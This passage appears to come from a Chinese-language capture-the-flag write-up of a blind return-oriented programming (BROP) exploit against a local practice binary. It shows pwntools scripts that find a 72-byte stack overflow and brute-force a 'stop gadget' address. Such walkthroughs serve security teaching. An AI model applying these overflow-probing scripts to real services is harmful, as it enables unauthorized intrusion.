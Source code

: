 ```python
                print 'Buffer flow length:%d'%(i-1)
                return i - 1
            else:
                i += 1
        # 栈溢出
        except EOFError:
            p.close()
            print 'Buffer flow length:%d'%(i-1)
            return i - 1

buffer_length = GetBufferLength()
#print buffer_length
```

```
[+] Starting local process './brop': pid 45215
[*] Stopped process './brop' (pid 45215)
72
```

缓冲区溢出长度为72

3、寻找能够返回main函数的gatgets，即stop_gatget

```python
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

##buffer_length = GetBufferLength()
buffer_length = 72

def GetStopAddr(length):
        address = 0x400500
        while 1:
                print(hex(address))
                try:
                        p = process('./brop')
                        p.recvuntil('Do you know password?\n')
                        payload = 'a'*length + p64(address)
                        p.send(payload)
                        output = p.recv()
                        p.close()
                        #未成功返回到main函数头部开始执行
                        if not output.startswith('WelCome my friend'):
                                address += 1
                        else:
                        	print('stop gadgets = 0x%x' % address)
                                return address
                #触发栈溢出异常
                except EOFError:
                        address += 1
                        p.close()

stop_gadget = GetStopAddr(buffer_length)
```
